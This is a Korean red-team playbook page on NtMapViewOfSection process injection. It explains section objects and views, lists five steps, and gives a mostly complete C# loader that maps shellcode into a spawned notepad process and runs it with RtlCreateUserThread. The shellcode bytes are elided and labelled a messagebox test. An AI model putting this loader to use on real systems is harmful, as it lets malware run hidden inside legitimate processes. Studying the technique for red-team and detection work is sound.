

# NtMapViewOfSection

NtMapViewOfSection 프로세스 인젝션은 윈도우의 섹션 오브젝트 (Section Object) 와 뷰 (View) 를 이용해 원격 프로세스에서 쉘코드를 실행하는 기법이다.&#x20;

* 섹션 오브젝트 (Section Object) - 프로세스 간 공유될 수 있는 메모리의 특정 부분. &#x20;
* 뷰 (View) - 섹션에서 실제로 접근 가능한 메모리 부분. 섹션 오브젝트의 뷰를 생성하는 것을 "맵핑" (Mapping) 이라고도 부른다. 섹션 오브젝트 중에서 특정 프로세스 2개 간 접근 가능한 부분을 뷰라고도 부른다. 프로세스는 1개, 혹은 여러개의 섹션에 1개, 혹은 여러개의 뷰를 갖을 수 있다.&#x20;



### 실행 단계&#x20;

1. NtCreateSection - 현재 프로세스에 공유될 수 있는 메모리 섹션을 생성한다.&#x20;
2. NtMapViewOfSection - 메모리 섹션에 접근 가능한 뷰를 생성한다.&#x20;
3. Marshal.Copy - 생성된 메모리에 쉘코드를 쓴다.&#x20;
4. NtMapViewOfSection - 원격 프로세스에 현재 프로세스의 섹션에 접근 가능한 뷰를 생성한다. 이때, #2번과 똑같은 메모리 부분을 접근하는 것이기 때문에 해당 메모리 섹션에는 이미 쉘코드가 쓰여져 있는 상태다.&#x20;
5. RtlCreateUserThread - 원격 프로세스에 쓰레드를 생성한 뒤 실행시킨다. 이 쓰레드는 뷰가 가르키고 섹션 안의 쉘코드를 실행시킨다.&#x20;

### 코드&#x20;

<details>

<summary>MappingInjection.cs</summary>

```csharp
namespace MappingInjection
{
    class Program
    {
        static void Main(string[] args)
        {
            // msfvenom -p windows/x64/messagebox text="stage0 shellcode" title="choi redteam playbook" -f csharp
            byte[] buf = new byte[306] {
                < ... >  };

            var process = Process.Start(@"C:\windows\system32\notepad.exe");
            var pid = process.Id;
            uint bufLength = (uint)buf.Length;

            uint SEC_COMMIT = 0x8000000;
            uint SECTION_ALL_ACCESS = (0x0002 | 0x0004 | 0x0008);

            IntPtr hSection = IntPtr.Zero;
            IntPtr pLocalView = IntPtr.Zero;
            IntPtr pRemoteView = IntPtr.Zero;
            IntPtr cid = IntPtr.Zero;

            // 1. Create section in current process 
            UInt32 rCreateSection = NtCreateSection(
                ref hSection, 
                SECTION_ALL_ACCESS,
                IntPtr.Zero,
                ref bufLength,
                (uint)MemoryProtection.ExecuteReadWrite,
                SEC_COMMIT,
                IntPtr.Zero
                );

            // 2. Create view to access the section created above.
            uint rMVOS = NtMapViewOfSection(
                hSection,
                GetCurrentProcess(),
                ref pLocalView,
                IntPtr.Zero,    
                IntPtr.Zero,
                out ulong sectionOffset,
                out bufLength,
                2,          // ViewUnmap = 2 
                0,
                (uint)MemoryProtection.ReadWrite
                );

            // 3. Copy shellcode to the local view 
            Marshal.Copy(buf, 0, pLocalView, buf.Length);

            // Notepad's Process Handle 
            IntPtr hProc = OpenProcess((uint)ProcessAccessFlags.All, false, pid);

            // 4. Create view to remote process. 
            uint rNMVOS = NtMapViewOfSection(
                hSection,
                hProc,
                ref pRemoteView,
                IntPtr.Zero,
                IntPtr.Zero,
                out ulong rSectionOffset,
                out bufLength,
                2,
                0,
                (uint)MemoryProtection.ExecuteRead
                );

            // 5. Start thread on the remote view to trigger the shellcode 
            IntPtr hThread = IntPtr.Zero;
            IntPtr pThread = RtlCreateUserThread(hProc, IntPtr.Zero, false, 0, IntPtr.Zero, IntPtr.Zero, pRemoteView, IntPtr.Zero, ref hThread, IntPtr.Zero);

            Console.WriteLine("[+] Local View address in MappingInejction.exe = 0x{0}", pLocalView.ToInt64().ToString("x2"));
            Console.WriteLine("[+] Remote View address in Notepad.exe = 0x{0}", pRemoteView.ToInt64().ToString("x2"));

        }
 
// PInvoke things...  
< ... >
```

</details>


### WinAPI&#x20;

TODO&#x20;

#### [NtMapViewOfSection](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FNtMapViewOfSection.html)&#x20;

```
NtMapViewOfSection(
  IN HANDLE               SectionHandle,
  IN HANDLE               ProcessHandle,
  IN OUT PVOID            *BaseAddress OPTIONAL,
  IN ULONG                ZeroBits OPTIONAL,
  IN ULONG                CommitSize,
  IN OUT PLARGE_INTEGER   SectionOffset OPTIONAL,
  IN OUT PULONG           ViewSize,
  IN                      InheritDisposition,
  IN ULONG                AllocationType OPTIONAL,
  IN ULONG                Protect 
);
```

#### 파라미터&#x20;

* SectionHandle - 섹션을 가르키는 핸들 &#x20;
* ProcessHandle - 프로세스를 가르키는 핸들. 로컬/원격이 될 수 있다.&#x20;
* BaseAddress - 뷰를 맵핑할 섹션의 메모리 주소&#x20;
* ZeroBits - BaseAddress의 High bit가 얼마만큼 0으로 설정되어야 하는지. 대부분 0이거나 `IntPtr.Zero` 다.&#x20;
* CommitSize - 처음 커밋된 메모리 크기 (바이트). 대부분 0이거나 `IntPtr.Zero` 다.&#x20;
* SectionOffset  - 섹션의 맵핑이 시작될 메모리를 가르키는 포인터. 대부분 `out ulong whatever` 로 포인터를 만들어 지정되도록 한다.&#x20;
* ViewSize - 뷰의 크기 - 대부분 쉘코드의 크기다. `out <쉘코드-크기-변수>` 로 지정한다.&#x20;
* InheritDisposition - [Section Inherit](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FSECTION\_INHERIT.html) . 대부분 ViewUnmap (2) 로 설정해 뷰가 자식 프로세스에게 상속되지 않도록 한다.&#x20;
* AllocationType - 메모리 페이지 할당 타입. 대부분 0이나 Null 로 설정한다.&#x20;
* Protect - 메모리 프로텍트 타입 - 로컬/원격 뷰에 따라 RW, RX 로 설정한다.&#x20;


### 레퍼런스&#x20;



